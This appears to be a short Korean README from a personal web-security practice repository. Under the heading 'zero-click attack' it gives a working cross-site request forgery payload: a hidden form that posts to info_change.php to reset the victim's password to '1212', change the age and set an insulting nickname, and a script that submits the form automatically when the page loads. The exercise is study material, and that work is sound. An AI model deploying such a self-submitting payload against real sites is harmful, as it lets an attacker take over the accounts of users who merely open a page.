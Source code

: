 # web3

<h1> 웹 보안 연습용 </h1> 
<p> 2021년 6월 12일 시작 </p>

  * <h3>제로 클릭 어택 </h3>


          <form  id="hack" action="../info_change.php" method="POST">
          <input type="hidden" name="user_pw1" value="1212" >
          <input type="hidden" name="user_pw2" value="1212" >
          <input type="hidden" name="age" value="50">
          <input type="hidden" name="nick" value="멍청이">
          <input type="hidden" name="email" value="">
          </form>
          <script>
          document.getElementById("hack").submit();
          </script    >
